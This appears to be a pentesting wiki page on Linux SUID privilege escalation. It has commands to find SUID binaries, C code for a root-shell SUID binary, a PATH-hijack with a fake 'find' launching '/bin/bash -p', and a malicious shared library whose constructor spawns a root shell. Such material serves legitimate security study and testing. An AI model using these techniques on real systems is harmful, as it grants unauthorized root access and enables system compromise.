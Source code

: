 # 🛠️ SUID Binaries

## Theory

SUID/Setuid stands for "set user ID upon execution", it is enabled by default in every Linux distributions. If a file with this bit is run, the uid will be changed by the owner one. If the file owner is `root`, the uid will be changed to `root` even if it was executed from user `bob`. SUID bit is represented by an `s`.



{% hint style="info" %}
Some of these techniques also may be used with SUDO scripts and binary
{% endhint %}

## Practice&#x20;

### Misc SUID Binaries

{% tabs %}
{% tab title="Find" %}
We can use this command to find all SUID binaries&#x20;

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -perm -4000 -type f 2>/dev/null
```
{% endtab %}

{% tab title="Create" %}
Here is how to create a SUID binary

```bash
print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # execute right
sudo chmod +s /tmp/suid # setuid bit
```
{% endtab %}

{% tab title="Known Exploits" %}
If you find that a binary have the SUID bits, you can check on [GTFOBins](https://gtfobins.github.io/) for known SUID exploits.
{% endtab %}
{% endtabs %}

### Relative Path Exploit

{% tabs %}
{% tab title="Enumerate" %}
If a **suid** binary executes another command **without specifying the full path.** We can abuse it and get a privilege escalation.

You may use `strings` to spot other binaries calls, or reverse the **suid** binary.

```bash
strings ./the-suid-bin

...
find
...
```
{% endtab %}

{% tab title="Exploit" %}
We can create a malicious executable with the same name as the one called by the **suid** binary.

```bash
echo '/bin/bash -p' > /tmp/find
chmod +x /tmp/find
```

\
Then, set the **PATH** env variable before executing the SUID binary.

```bash
#Sudo with modified PATH
export PATH=/tmp:$PATH 
./the-suid-bin
```
{% endtab %}
{% endtabs %}

### Shared Library Hijacking

{% tabs %}
{% tab title="Enumerate" %}
If you find some binary with **SUID** permissions, you could check if all the **.so** files are **loaded correctly**

```bash
strace the-suid-bin 2>&1 | grep -i -E "open|access|no such file"
```

You also could check if the **SUID** binary is loading a library from a folder **where we can write**:

```bash
# Lets find a SUID using a non-standard library
ldd the-suid-bin
something.so => /lib/x86_64-linux-gnu/something.so

# The SUID also loads libraries from a custom location where we can write
readelf -d the-suid-bin | grep PATH
0x000000000000001d (RUNPATH)            Library runpath: [/development]
```
{% endtab %}

{% tab title="Exploit" %}
For example, if you find that the **suid** binary **doesn't** **load correctly** _`/home/user/.config/libcalc.so`_ or that you can overwrite it, you can exploit it.

Write a malicious shared library

```c
//Saved to /home/user/.config/libcalc.c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

Compile it

```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```

Execute the SUID binary

```bash
./SUID-BINARY
```

{% hint style="info" %}
If you get an error such as

```shell-session
./suid_bin: symbol lookup error: ./suid_bin: undefined symbol: a_function_name
```

that means that the library you have generated need to have a function called `a_function_name`.
{% endhint %}
{% endtab %}
{% endtabs %}

